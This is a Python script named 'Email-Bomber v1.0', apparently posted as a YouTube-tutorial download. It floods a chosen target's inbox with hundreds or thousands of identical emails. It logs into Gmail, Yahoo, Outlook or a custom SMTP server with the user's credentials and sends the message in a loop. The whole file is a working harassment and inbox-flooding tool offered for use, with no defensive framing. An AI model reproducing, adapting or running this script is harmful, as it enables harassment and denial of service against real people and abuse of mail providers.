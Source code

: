 # Bomber
Bomber
#// Don't forget to hit SUBSCRIBE, COMMENT, LIKE, SHARE! and LEARN... :)
# But srsly, hit that sub button so you don't miss out on more content! 


'''imports'''
import smtplib
import sys


class bcolors:
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'


def banner():
    print(bcolors.GREEN + '+[+[+[ Email-Bomber v1.0 ]+]+]+')
    print(bcolors.GREEN + '+[+[+[ made with codes ]+]+]+')
    print(bcolors.GREEN + '''
                     \|/
                       `--+--'
                          |
                      ,--'#`--.
                      |#######|
                   _.-'#######`-._
                ,-'###############`-.
              ,'#####################`,         .___     .__         .
             |#########################|        [__ ._ _ [__) _ ._ _ |_  _ ._.
            |###########################|       [___[ | )[__)(_)[ | )[_)(/,[
           |#############################|
           |#############################|              Author: w3w3w3
           |#############################|
            |###########################|
             \#########################/
              `.#####################,'
                `._###############_,'
                   `--..#####..--'                                 ,-.--.
*.______________________________________________________________,' (Bomb)
                                                                    `--' ''')


class Email_Bomber:
    count = 0

    def __init__(self):
        try:
            print(bcolors.RED + '\n+[+[+[ Initializing program ]+]+]+')
            self.target = str(input(bcolors.GREEN + 'Enter target email <: '))
            self.mode = int(input(bcolors.GREEN + 'Enter BOMB mode (1,2,3,4) || 1:(1000) 2:(500) 3:(250) 4:(custom) <: '))
            if int(self.mode) > int(4) or int(self.mode) < int(1):
                print('ERROR: Invalid Option. GoodBye.')
                sys.exit(1)
        except Exception as e:
            print(f'ERROR: {e}')

    def bomb(self):
        try:
            print(bcolors.RED + '\n+[+[+[ Setting up bomb ]+]+]+')
            self.amount = None
            if self.mode == int(1):
                self.amount = int(1000)
            elif self.mode == int(2):
                self.amount = int(500)
            elif self.mode == int(3):
                self.amount = int(250)
            else:
                self.amount = int(input(bcolors.GREEN + 'Choose a CUSTOM amount <: '))
            print(bcolors.RED + f'\n+[+[+[ You have selected BOMB mode: {self.mode} and {self.amount} emails ]+]+]+')
        except Exception as e:
            print(f'ERROR: {e}')

    def email(self):
        try:
            print(bcolors.RED + '\n+[+[+[ Setting up email ]+]+]+')
            self.server = str(input(bcolors.GREEN + 'Enter email server | or select premade options - 1:Gmail 2:Yahoo 3:Outlook <: '))
            premade = ['1', '2', '3']
            default_port = True
            if self.server not in premade:
                default_port = False
                self.port = int(input(bcolors.GREEN + 'Enter port number <: '))

            if default_port == True:
                self.port = int(587)

            if self.server == '1':
                self.server = 'smtp.gmail.com'
            elif self.server == '2':
                self.server = 'smtp.mail.yahoo.com'
            elif self.server == '3':
                self.server = 'smtp-mail.outlook.com'

            self.fromAddr = str(input(bcolors.GREEN + 'Enter from address <: '))
            self.fromPwd = str(input(bcolors.GREEN + 'Enter from password <: '))
            self.subject = str(input(bcolors.GREEN + 'Enter subject <: '))
            self.message = str(input(bcolors.GREEN + 'Enter message <: '))

            self.msg = '''From: %s\nTo: %s\nSubject %s\n%s\n
            ''' % (self.fromAddr, self.target, self.subject, self.message)

            self.s = smtplib.SMTP(self.server, self.port)
            self.s.ehlo()
            self.s.starttls()
            self.s.ehlo()
            self.s.login(self.fromAddr, self.fromPwd)
        except Exception as e:
            print(f'ERROR: {e}')

    def send(self):
        try:
            self.s.sendmail(self.fromAddr, self.target, self.msg)
            self.count +=1
            print(bcolors.YELLOW + f'BOMB: {self.count}')
        except Exception as e:
            print(f'ERROR: {e}')

    def attack(self):
        print(bcolors.RED + '\n+[+[+[ Attacking... ]+]+]+')
        for email in range(self.amount+1):
            self.send()
        self.s.close()
        print(bcolors.RED + '\n+[+[+[ Attack finished ]+]+]+')
        sys.exit(0)


if __name__=='__main__':
    banner()
    bomb = Email_Bomber()
    bomb.bomb()
    bomb.email()
    bomb.attack()

